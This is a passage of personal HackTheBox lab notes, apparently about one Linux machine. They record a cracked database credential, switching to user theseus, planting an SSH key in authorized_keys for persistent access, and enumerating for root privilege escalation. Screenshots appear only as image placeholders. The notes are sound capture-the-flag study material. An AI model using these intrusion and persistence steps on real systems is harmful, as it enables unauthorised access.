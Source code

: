 ![[HackTheBox/Linux/attachments/Pasted image 20250510001852.png]]

Database dump
![[HackTheBox/Linux/attachments/Pasted image 20250510002001.png]]
`admin:Th3s3usW4sK1ng`

We have the user theseus in `/etc/passwd`

### Switch to Theseus User

```
su - theseus
```

Creating an ssh key so that we can ssh in as theseus 

```
ssh-keygen -f theseus
```

```
cat theseus.pub
```

![[HackTheBox/Linux/attachments/Pasted image 20250510002434.png]]

Copy this ssh public key and paste it in authorized_keys file in theseus's .ssh directory

```
echo ssh-rsa AAAB3NzaC1kdshfklhdfhdh > authorized_keys
```

![[HackTheBox/Linux/attachments/Pasted image 20250510002641.png]]

On Kali box 
```
chmod 600 theseus
```

Now ssh in as theseus

```
ssh -i theseus theseus@10.10.10.185
```
#### Enumerating for priv esc to root

`sudo -l` gets an error
![[HackTheBox/Linux/attachments/Pasted image 20250510002906.png]]

Run linPEAS again, but don't find anything 

#### Find files that this user owns
```
find / -user theseus -ls 2>/dev/null
```

#### Find files that the users group owns
```
find / -group users -ls 2>/dev/null
```
![[HackTheBox/Linux/attachments/Pasted image 20250510003343.png]]
- `/bin/sysinfo`
